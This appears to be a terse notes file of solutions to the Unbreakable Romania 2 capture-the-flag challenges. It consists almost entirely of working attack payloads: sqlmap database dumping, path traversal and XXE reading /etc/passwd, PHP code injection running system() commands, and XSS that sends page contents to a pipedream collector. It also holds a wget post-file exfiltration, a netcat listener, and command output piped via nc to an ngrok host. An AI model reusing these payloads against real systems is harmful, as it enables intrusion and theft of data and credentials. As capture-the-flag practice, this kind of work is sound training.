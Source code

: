 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

sqlmap -u http://35.198.183.125:30321/user?id=1;
sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns


### File Crawler

http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd
http://34.141.25.94:32191/local?image_name=..////tmp//flag


### Substitute
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")


### manual-review

<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>


### syntax check

burpsuite

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>

### Under Construction
https://github.com/ticarpi/jwt_tool

python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable

<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>

atob('')

### alfa-cookie

cmd = ('ls -lah | nc 2.tcp.ngrok.io 17855')

https://blog.kuhi.to/unbreakable-romania-2-writeup
